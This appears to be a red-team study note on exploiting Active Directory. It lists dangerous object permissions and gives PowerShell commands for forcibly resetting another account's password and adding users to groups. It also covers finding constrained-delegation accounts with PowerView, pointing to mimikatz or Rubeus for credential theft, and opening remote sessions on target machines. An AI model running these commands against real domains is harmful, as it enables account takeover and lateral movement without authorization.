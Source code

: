 # Exploiting Dangerous Permissions
Some examples of dangerous permissions include:
- ForceChangePassword
	- User can forcibly change another users' password
- AddMembers
	- Users with this permission can add users, groups, and computers to another group
- GenericAll
	- Complete control over an object
- GenericWrite
	- Update any non-protected parameters of a target object
- WriteOwner
	- Update owner of a target object
- WriteDACL
	- Write new ACEs to the target object's DACL
- AllExtendedRights
	- Permission to perform any action associated with extended AD rights (including for changing password etc.)
- [[BloodHound]]
- [[PowerView]]
- Active Directory Module

```powershell
# Change an account password
$Password = ConvertTo-SecureString "<new pass>" -AsPlainText -Force
Set-ADAccountPassword -Identity "<AD user username>" -Reset -NewPassword $Password

# Add a user to a group
Add-ADGroupMember "IT Support" -Members "<AD user username>" 
```

# Exploiting Constrained Delegation
```powershell
Get-NetUser -TrustedToAuth # Powerview module to get service accounts trusted to authenticate users to services. (Accounts that can request a TGT)
# Use mimikatz or rubeus to get credentials for this user

# Begin a remote powershell session on a target machine (tickets should be in memory for an impersonated user delegating WSMAN and HTTP authority)
$username = “<USERNAME>”  
$password = “<PASSWORD>”  
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force  
$cred = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
New-PSSession -ComputerName <remote server name>
Enter-PSSession -ComputerName <remote server name>
```
- [[Mimikatz]]
- [[PowerView]]
- [[Kekeo]]
- [[BloodHound]]
